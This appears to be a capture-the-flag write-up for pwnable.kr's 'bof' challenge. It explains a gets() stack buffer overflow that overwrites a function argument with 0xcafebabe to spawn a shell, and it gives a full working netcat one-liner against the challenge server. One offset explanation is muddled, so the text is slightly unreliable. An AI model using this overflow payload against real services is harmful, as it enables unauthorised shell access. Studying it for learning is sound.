



# pwnable.kr - bof Writeup

This challenge is a shows hot Stack Buffer Overflows lets you have control over the program execution flow.

## The Source Code

Here is the source code provided for the challenge:

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
    void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);    // smash the stack!
        if(key == 0xcafebabe){
            system("/bin/sh");
        }
        else{
            printf("Nah..\n");
        }
    }
    int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
    }

## Vulnerability Analysis

The vulnerability here is glaringly obvious. The program defines a local buffer named `overflowme` with a fixed size of 32 bytes, but then populates it using the notoriously dangerous `gets()` function. 

The `gets()` function reads input from stdin until it encounters a newline character or EOF, without performing any bounds checking. This means we can feed it as much data as we want, spill out of the `overflowme` buffer, and overwrite whatever lies further up on the stack frame.

Our objective is to overwrite the `key` parameter (originally initialized to `0xdeadbeef` in `main`) with the value `0xcafebabe`. If we successfully hijack this variable, the `if` condition evaluates to true, spawning a shell.

## Investigating the Stack Layout

To construct the exploit, we need to know the exact distance in memory between the start of `overflowme` and the `key` variable. We can't rely purely on C variable declarations because compilers introduce alignment padding and optimization shifts.

Disassembling the `func` function in IDA reveals the exact offsets relative to the base pointer (`ebp`):

From the disassembly, we can extract the precise memory addresses:
* `overflowme` is loaded using at `ebp - 0x2c`. In decimal, `0x2c` is 44 bytes.
* The comparison `cmp` checks the value at `ebp + 0x8`. This is where our `key` variable sits.

        Address      |       Stack Content       |  Size   | Comments
        ------------------+---------------------------+---------+-------------------------
         Higher Addresses |                           |         | 
                          | ...                       |         | 
           [ebp + 0x08]   +---------------------------+---------+ 
                          |     key (0xdeadbeef)      | 4 bytes | <- Target to overwrite
           [ebp + 0x04]   +---------------------------+---------+
                          |   Return Address (EIP)    | 4 bytes | 
           [ebp]          +---------------------------+---------+
                          |    Saved EBP (Pointer)    | 4 bytes | 
           [ebp - 0x0c]   +---------------------------+---------+
                          |     Compiler Padding      |12 bytes | 
                          +---------------------------+---------+
                          |                           |         | 
                          |      overflowme[32]       |32 bytes | <- Input starts here
                          |                           |         | 
           [ebp - 0x2c]   +---------------------------+---------+
         Lower Addresses  |                           |         |

if you look at the stack frame diagram, you can see that there is a 52-byte gap between the end of the `overflowme` buffer and the `key` variable. This gap includes the saved frame pointer and return address, which we must overwrite to reach our target.

Now we calculate the exact distance from the buffer to the target variable:
$$\text{Distance} = 0x8 - (-0x2c) = 0x8 + 0x2c = 0x34$$

Converting `0x34` from hexadecimal to decimal gives us exactly **52 bytes**. 

This means we need to supply 52 bytes of junk data to completely fill the buffer and overwrite the intervening stack structures (like the saved frame pointer and return address), followed immediately by our target payload: `0xcafebabe`.

## Constructing the Exploit

Because the target architecture is Little-Endian, the byte sequence for `0xcafebabe` must be reversed when injected into the raw stream: `\xbe\xba\xfe\xca`.

One tricky aspect of this challenge is that if we simply pipe the output of a script into netcat, the stdin stream will close immediately after the payload is sent. This kills the spawned shell before we can interact with it. To bypass this, we keep stdin open by appending the `cat` command.

The full exploit command looks like this:

    (python3 -c "import sys; sys.stdout.buffer.write(b'A'*52 + b'\xbe\xba\xfe\xca\n')"; cat) | nc pwnable.kr 10003

Once executed, the 52 bytes of 'A' smash through the stack alignment padding, placing `0xcafebabe` directly over the `key` memory slot. The program validates the altered variable, spawns `/bin/sh`, and `cat` keeps the channel open so we can comfortably type `cat flag`.

